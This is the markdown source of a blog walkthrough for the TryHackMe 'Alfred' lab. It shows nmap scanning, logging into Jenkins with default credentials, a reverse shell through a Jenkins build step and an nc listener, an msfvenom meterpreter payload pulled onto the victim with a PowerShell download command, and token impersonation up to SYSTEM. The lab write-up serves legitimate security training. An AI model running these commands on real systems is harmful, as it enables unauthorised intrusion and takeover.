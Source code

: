 ```yaml
---
slug: alfred-walkthrough
title: TryHackMe - Alfred - Walkthrough
authors: bw
tags: [learning, alfred, tryhackme, walkthrough]
---
```


This is a walkthrough for the room: [Alfred][alfred] on [TryHackMe][thm]. Let’s get started!

# Initial Access
First question is asking about how many TCP ports are open, however it does note that the server will not respond to ping, so we need to run the `-Pn` option for our `nmap` scan.

![a1](/static/img/thm/steelmountain/a1.png)

We see that this is clearly a Microsoft server, and there is a website on port 80 and 8080. Let’s take a look!

![a2](/static/img/thm/steelmountain/a2.png)

Wow, poor Batman! We know we are looking for login information since the next question asks for it. So there has to be some sort of login page. Let’s try checking 8080.

![a3](/static/img/thm/steelmountain/a3.webp)

Bingo! Now we still need a login. Let’s try some default credentials. After looking up Jenkins default credentials: `admin:password` trying that doesn’t work. Let’s try `admin:admin`. That works!

**NOTE:** I got lucky here by guessing default creds, but you could brute force this with hydra if it was more difficult.

Next, the room tells us to find a feature of the system that allows us to run commands. From there we can get a reverse shell on our machine using the command they give us.

If we navigate into the already created project, we can explore some more. Eventually, we get to **Configure**. In here under **Build**, we can run commands on the local system.

Before we do this, we need to download the script the room gives us ([here][nishang]) to our local machine. And then setup our python server:

`python3 -m http.server 80`

Then open a new terminal tab and start a netcat listener:

`nc -nvlp 1234`

Now, let’s enter our commands we want the server to execute. (These are given to us)

![a4](/static/img/thm/steelmountain/a4.png)

Click **Apply**, **Save** then select **Build Now**. If you go to your netcat listener terminal, you should now have a shell!

![a5](/static/img/thm/steelmountain/a5.png)

Now that we are in, we can look for the user flag!

![a6](/static/img/thm/steelmountain/a6.png)

Alright! Next section.

# Switching Shells
First step is to create our payload. Let’s open a new terminal and put in the commands given:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<thm_vpn_ip> LPORT=1235 -f exe -o win_shell.exe
```
With the output, we get our next answer:

![a7](/static/img/thm/steelmountain/a7-1.webp)

Now we need to download the payload to the machine. Utilize the command given and run it in our shell on the victim machine.

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<thm_vpn_ip>:80/shell-name.exe','shell-name.exe')"`
**NOTE:** If you stopped your Python webserver earlier, you will need to start that again under the folder where you save the payload: python3 -m http.server 80

Now, once again we need to start a listener, but since this is a `meterpreter` shell, we will need to use metasploit. Open a new terminal:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 1235
run
```

Now that our listener is running, let’s start the payload by entering `Start-Process "shell-name.exe"` in the current shell on the victim machine.

You should now have a shell in metasploit!

# Privilege Escalation
Let’s follow along with the instructions. Type `shell` and then `whoami /priv`

Exit the local shell: `exit`, and run the following:

```bash
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
getuid
```
Just like the room says, we need to migrate to a process that is running as `NT AUTHORITY\SYSTEM`. Lets run `ps` and look for the `services.exe` process.

![a8](/static/img/thm/steelmountain/a8.png)

From here we can run the following command: `migrate 668`

There let’s get the root flag!

![a9](/static/img/thm/steelmountain/a9.png)

# Review
This was a good in-between room. It was sort of a walkthrough but also didn’t give you all the information similar to a CTF. It was an easy room, but I definitely enjoyed it! See ya next time!

# References
[Alfred][alfred] | [TryHackMe][thm] | [Nishang][nishang]

[alfred]: https://tryhackme.com/why-subscribe?roomCode=alfred
[thm]: https://tryhackme.com
[nishang]: https://github.com/samratashok/nishang